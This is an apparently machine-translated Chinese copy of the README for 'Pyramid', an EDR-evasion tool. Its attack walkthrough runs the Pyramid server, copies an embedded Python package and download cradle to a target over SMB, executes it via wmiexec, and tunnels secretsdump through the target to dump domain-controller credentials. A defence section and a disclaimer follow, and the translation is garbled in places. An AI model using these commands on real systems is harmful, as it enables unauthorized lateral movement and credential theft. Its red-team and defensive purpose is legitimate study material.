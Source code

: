 攻击记录如下:

启动金字塔服务器:

`**python3 PyramidHTTP.py 443 testuser Sup3rP4ss! /home/nak/projects/dev/Proxy/Pyramid/key.pem /home/nak/projects/dev/Proxy/Pyramid/cert.pem /home/nak/projects/dev/Proxy/Pyramid/Server/**`

保存基础下载摇篮到摇篮. py。

将解包的 windows 可嵌入包(带有 cradle.py)复制到目标:

`**smbclient //192.168.1.11/C$ -U domain/user -c 'prompt OFF; recurse ON; lcd /home/user/Downloads/python-3.10.4-embed-amd64; cd Users\Public; mkdir python-3.10.4-embed-amd64; cd python-3.10.4-embed-amd64; mput *'**`

执行 pythonw.exe 启动摇篮:

`**/usr/share/doc/python3-impacket/examples/wmiexec.py domain/user:"Password1\!"@192.168.1.11 'C:\Users\Public\python-3.10.4-embed-amd64\pythonw.exe C:\Users\Public\python-3.10.4-embed-amd64\cradle.py'**`

Socks5 服务器正在目标上运行，SSH 隧道应该已启动，因此修改 proxychains.conf 并通过目标对通信进行隧道:

`**proxychains impacket-secretsdump domain/user:"Password1\!"@192.168.1.50 -just-dc**`

#### 限制

动态加载 Python 模块本身不支持导入*。本质上是 dll 的 pyd 文件。据我所知，解决这个问题的唯一公开解决方案是 Scythe *(内存执行)通过重新设计 CPython 解释器提供的。为了不丢失数字签名，一个允许使用原生 Python 可嵌入包的解决方案是将所需的 pyd 文件或轮子放到磁盘上。在大多数情况下，这应该不会对 OPSEC 产生重大影响，但是请记住，包含 pyd 文件的下列轮子会被删除到磁盘上，以便完成动态加载:*。crypto dome–blood hound-Python、Impacket、DonPAPI 和 LaZagne *需要。bcrypt、密码术、nacl、cffi–para miko 需要

*   请注意，运行 BOFs 不需要在磁盘上删除任何 pyd，因为这种技术只涉及外壳代码注入。

### 如何防御这种技术

Python.exe 是一个具有良好声誉的签名二进制文件，它不提供 Python 动态代码的可见性。金字塔利用这些规避属性在同一个 python.exe 进程中执行攻击性任务。

出于这个原因，最有效的解决方案之一是在默认情况下阻止 Python Foundation 签名的二进制文件和 dll，只为实际需要使用 Python 二进制文件的用户创建例外。

还可以发出下载可嵌入包的警报。

部署 PEP-578 虽然复杂，但也是可行的，[这是一个示例实现](https://github.com/zooba/spython)。然而，部署 PEP-578 而不阻止使用现有的 python 二进制文件可能会使这种对策无效。

### 放弃

创建此工具是为了演示基于一些盲点假设的针对 EDRs 的旁路策略。据我所知，它以一种新颖的方式结合了现有的技术和工具，有助于规避防御。该工具的唯一目的是帮助社区提高对此类用法的认识，并加快解决问题。这不是一天，这不是一个完全成熟的闪亮的 C2，金字塔利用了可能是 EDRs 的盲点，该工具已经公开，以揭示它们。包括了一个辩护段落，希望有经验的蓝队成员能够帮助做出贡献，并就金字塔旨在强调的问题提供更好的解决方案。所有信息仅用于教育目的。遵循指示，风险自负。作者及其雇主均不对任何个人或组织造成的任何直接或间接损害或损失负责。

[Click Here To Download](https://github.com/naksyn/Pyramid)